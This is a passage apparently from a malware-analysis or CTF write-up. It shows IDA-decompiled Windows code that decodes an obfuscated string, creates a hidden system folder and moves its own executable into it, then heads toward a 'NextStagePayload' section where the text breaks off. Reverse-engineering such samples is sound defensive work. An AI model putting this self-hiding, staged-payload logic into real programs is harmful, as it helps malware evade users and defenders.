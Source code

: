 ```cpp=
  if ( SHGetKnownFolderPath((const KNOWNFOLDERID *const)&unk_14000AA80, KF_FLAG_DEFAULT, 0i64, &ppszPath) )
    return 0i64;
  for ( i = 7; i <= 22; i += 4 )
  {
    char_1 = *(_DWORD *)((char *)szUrl + i);
    for ( j = 0; j <= 3; ++j )
    {
      LOBYTE(char_1) = char_1 - 43;
      char_1 = __ROR4__(char_1, 8);
    }
    char_1 ^= 0x6F6F6F6Fu;
    *(_DWORD *)((char *)szUrl + i) = char_1;
  }
  HIBYTE(szUrl[2]) = 0;
  cchWideChar = MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, 0i64, 0);
  if ( !cchWideChar )
    return 0i64;
  lpWideCharStr = (LPWSTR)malloc(2i64 * cchWideChar);
  if ( !lpWideCharStr )
    return 0i64;
  MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, lpWideCharStr, cchWideChar);
  if ( PathAllocCombine(ppszPath, lpWideCharStr, PATHCCH_NONE, &ppszPathOut) )
  {
    free(lpWideCharStr);
    return 0i64;
  }
  else
  {
    CreateDirectoryW(ppszPathOut, 0i64);
    SetFileAttributesW(ppszPathOut, 0x26u);     // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
    lpFilename = (LPWSTR)malloc(0x208ui64);
    GetModuleFileNameW(0i64, lpFilename, 0x104u);
    if ( PathAllocCombine(ppszPathOut, lpWideCharStr, 0, &ppszPathOut) )
    {
      free(lpWideCharStr);
      free(lpFilename);
      return 0i64;
    }
    else if ( MoveFileW(lpFilename, ppszPathOut) )
    {
      SetFileAttributesW(ppszPathOut, 0x26u);   // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
      free(lpWideCharStr);
      free(lpFilename);
      return Reverse_URL_Part2(ppszPathOut);
    }
    else
    {
      free(lpWideCharStr);
      free(lpFilename);
      ImportatntPart();
      return 0i64;
    }
  }
}
```
:::
:::spoiler IDA NextStagePayload
```cpp=
void __stdcall NextStagePayload()
{
```